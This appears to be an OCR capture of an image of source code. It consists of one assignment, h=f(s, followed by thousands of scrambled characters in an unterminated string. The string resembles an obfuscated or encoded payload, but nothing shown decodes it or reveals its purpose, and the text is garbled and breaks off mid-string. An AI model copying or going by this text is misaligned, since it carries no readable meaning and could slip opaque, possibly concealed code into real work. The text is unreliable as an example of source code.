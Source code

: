 h=f(s,"8Jk)sP5.+YQ(uqy;u;sky)+sk+qP5.N+QY(;PP;k.sJ((5++JqYqP(;5+YJ.uQ5u(u5;;(Yu)qqus)yJ+;kPuu.kmu(ks+yuQk))qY+kJ5()5);yYk);J5;PPP;5Y.)5.;)(ys++kkukJ;;s(1cku5Y)))qs5ua((q^Qq5YJs5+yP;JJus55;+Y5)yyssPJ(u+5.u.PukqyQ+skJqs5.u)Y5sQy(Y;kquu.;J;(JRqykY.)PYJ5PJ5u5Py45Q(;YJu(yP(;uYqQfP+;s+5uP.54sQPs5yPkq;(Yu)Qqykq;u(y5s;QY+)uq..5kQuG5.#.q(.(Ju(qPy;;Q>)JkJ+5)JuP557.Q5;qQ;5)R*.t)5qI.yJ;(.P;>.q+YGJ.(+PY;+sJ;qQ5sQys+syJq5.kusQ+P+yu+Y)qu;k(k)(5Pu;)Y;s+Qu))P.J)Y5).q+..yk+;)6uq.JqY5;J1y5+u).u+.PJYQuJ.;JYk;((yP5JQYsP+yuQP*(yP.3PQ;yYY)Qq(.QyqYXk+uy.PsPJ(+skPu55PuQ5y_qQu5JUTY)y;yY+#k..Q55;QP5sPy.+qqQu(5y1kQ(s+;P+yykq5.)uP(qsuQ+Y#)YqY.Q&y5yP6;sPJsJy++5qPuYPQ=QQksQy;)u;.+.Q2s,yJ+kk)us5PkQy.s(yy+Qk(uu5(yP.lkk(;YP)qqs.PJ5(PO((y5+;;.qPT;.+qk)!sQ;s)ys+PksYQkqqq5qJ.(PPq;AYy)Jy).5P5kPYP)5q..5qmP;lJ(qPJ;)Q.)5qk+(jP(sPYL;+Y)qqqP({qQs5.;P((5QyQ5s:uyq5;;Y+u55;)()Jsuy.T&Pq)sP;(.)P);q.);YQY5YsQyQ+(kuuq5yy;J;YJ;P(()sqP.5JP5ukJu)5y(uQ)s.y(+PyJqY5sJ.5PP5;YY.)qu;5ykR(kPkQ;Q.)Qy5.(qsQk5P*5Q5kuq;.yqu())Jskys+Jkku)u.5qZ.(Yy((PkQu(5u_(PYJsuYJJqyYusky#)5;;(Y5u(Q.qsJyk+uq;Q).dJkQusYyYs5J(q.kYV)(Q5J;;syJkqu.Qkk(P5);5Q+)(YY(u5y;(Yu)qqu)kyPY))+u+.5uPYsP5;uYk)Lqs5;,yukP+;;Y;.)J)(sPP;5Y.)+qY(QJy(;Pq;yY;()P5ysk5qs5PN5Q.s5Yqs;F)QdJ q5.eksQsP.hPQQ)yqY.uPY;YYQ)(qu.qJy(;5r!su+s)ys+Pks.YkYyk.=Js(JPY;ks;JuqQ.skP(P5.7;P.ssy+.(J;uJ5J(y(kPPys+Pk+q..+4u(uPs;PQ)yuU;()syy;YXQss5yP.qk)(q;QYy)YqQ.(JQ.Jk.q)5uC5yP+(ksuP552Ps(J+(+P;;JY(skJkukPJ;kY))kQ.s(yP.yk(uY5+JkQ5s);)+ykku;5+J.QQ+Ykyu+5YiQQY;Q(u5k;+Y5sQJPuqPs;PY5)P+Ps+yY+Y<;uk5J;yY)PP;s+u)kuu.Yy;(JsqyyYC)QQy+kk)ukYs)qq).sJP(s&YYQPJyJQXsQykYLk_uuQssYy)+skPkuq5.Q!yQ(sy;s)0q)5;JX(Ju5Ps;5QJ)(.QkJ(YPQ;(YQJJQqPk;sY)k(qJ5(s+y;+.k+uY5+Q;+JJ;Q;5);YQUseJ)(PP+;(Y.)+qY.+yk.qkQu)Qks5yJ+kk)uk)PuY5+Js(P+qs;uu5qfyQq;5(kP(;;YY)YY5+(k..Y554QYqsJYy.JkJqQ5+tuQYPJyQs.Jq(kkQ;.(Ps;HcYRskyQ))P5g)YP)5q..5yu+Yksu;5qJ&QssqyQY.)*qq5QJQyQ+ukYuQ5(+Tk5(yPsY)sJqk.)Js()ZQQQ)YyqYus)u.+Y)5Q5sqy+Q+sq;Yu+.sg.Q+sYy+sQ;k.YJyyk5Y;quQ5.q(Yykyu;((5s;QY()uq(kPysYsJsu..PJQQysYyus55Y:QQ(Py;y+yk;q6.kJk()Ps;((!)+q+.YJy((Pq;qY;);yssskku)5s6YQ5s+y++qyqu(5u}qqys;;JYJ)km..sJP(5P.;+YY)Qq(yxJy(;P;%lQJsky)+skYu55.D+QYsQyu+usqsP5;JG(JPk;)YQ)Py+);J+(QPQJsYu)qqyYJ)JuJ5s,)QPsPy5+.kyJ;5QZyQuP-yyY*)Rqk.kJ);uPP;5Y.)YqY.QJ((uky;yQJs:y)+kksus..J/Q.sQyY(Pk(uu5qkd(.Px;sYksyqs.PJ5q.PY;YYq)(q;.q)P(;.kC5Qks.ysQ+k5u.5+kY(ys(;9+q)ku;YkJJus5q;sYQ)5;k.+JY(Q.(;qYqs)q;+PkJqP5)J5uJs5yq++ssuQ5(-uuqPuy;Y5)Jq+.)J+(PP5k(Y+sBqQ.(Ju(qPyJJ5+sJyQ+))quP55V.(QJJyQYskuqy5yH;(N5)(QY))yqP.uJ.(+PY;yq()qyP.ys2un5k-kQ)+Qy5Ykk.uq5YrQQ(su))+;)uqN.uJk()Ps;Pys)+ys.YJu((Py;qYyyqyz++kkuy5sJJQ5s.Y5+Y)Ju(.+mq(Ys;;syk))q(.s)=(5P+;+YY+sq(+sJqu5P;G!QJs+)Y+skqu55YX+QQsQ;J+ukqJ55;J*(JPs;)Ys)Pq5(;J+(YPQ;;Yu)qqy.;5+uJ5kD)QusPy5+.k+JJ5Qz(QuPVyy+;)#qJ(QJ)(sPP;qY.)+qY.Q5)(uPq;yQVsOyJ+kk)PP5Po;Q.P{yY+Qk(uu+QUy(YPF;JYk))qs.Pk.(.5J;YYu)(qy.qJyu.5&=JQksuys+Pk5u.+P4YQQs(yy+qkyu;.tJs(kP);sYP)5q..+Jq(;P(;uYq((q;+JkJqs.sdsQPs5J)++kYuQ+(s;Qysyy;YD)Jq+.)k5ukP5;.Y+PqqQ.(Juu;5(;;Q*sJly+)ksuP+54uQ+sYyQ+(kuy)5ykJumPJ;kY))yqP.5J.(+Py;QY()uqy.yJ;ux.)J5Q)ssyPQ5k.u+5YJuuJsuyq+yPuqB.JJkqY5(;PY5).Js.YJ(((5y;qQkakyn+Jkk;;5sv5Q5s.yu+QkQu(5qRqQys;_kPY)kq).sJy(5P.;+YY5yqu.qJq(yP;XlQJPs;s+sk.u5+;2+QYsQyqQukqqJ5;Ja(JPk;)Ys.)q5.YJ+((PQ;yYus);5.;kkuJQ5B)QPsPy5+.ku+u5Qz(QuYJyyY<)BqP)PJ)(sPP);Y.)YqY+uku(u5J;yQus1yJ+k)P+u5P (Q..JyY+Qk(uu)(iy()Pi;)Yk)sqs.PJQ(+P+;YY()(qu.qkk+k5oIJQk+;ys+5k5qY.YZYQys(;5+qkyu;+kqY(kP+;sQ;)5q..+JY++P(jTYqsFq;+JkJqs.s2sQYs5;5++kYuQ.qqsQqP)y;YY)Jqk.)Js+)P5;(Y+)(qQ.uJuqq(Y6HQssJyP+)s)uP552uQ+s;yQ+(kuq&5y);(;PJ;+Y)P,qP+(J.y+Py;QQJ)u;Q.y))uxYJJyQ)sQyPQ(k.qs5YBQussu;J+y)Pqh.kJkuPPP;PYQ).qQ.YJQ((.u.sYys)yK+PkkyJ5skPJqs.yu+Ykyu(Y5{qqs1.;fYP)kky.sJ5(5.q;+Yq;qq(.uJqJYP;HJQJs5Q5+skPu5qJj+QQsQ;qYqkqqk5;).(JPk;)(s+Pq5.(J+(qPQkYYus;q;.;k5uJ.QX)QssPy5Yqk+uq5QJJQus;yyQ;)yqJ.5J)(+PP;qY.P+;5.QJ;(u5J;yuKsBRJYQk)u+5PgQQ.P5yYYukyuu.)wy(;PO;JYk))sw.PJQ(.Py;YY()(;uY.Jyu)5UgsQk5kys+P)Yu.5ySYQQs(y;+qPyq(.BJ.(k5;;sQQ)53.+PJYu*P(JYYqsYq;(#kyuk5YNsuQs5;)++kYq.5(JTQqPsy;YJ)Jys+sJs(YP5J;Y+)YqQ+J.k(q5);;QJsJy)+)kPuP55s;Q+sYyQ+ykuuq5y=;yyPJ;5Y))5qP.(J.(y5k;QY;)usy.yk&ux5JvkQ.a.yP+5k.)Y5YA(Q(Pm(4+yk;q,yqJk(sPsJP;q)+qy.YJq((.(;qYy;Yy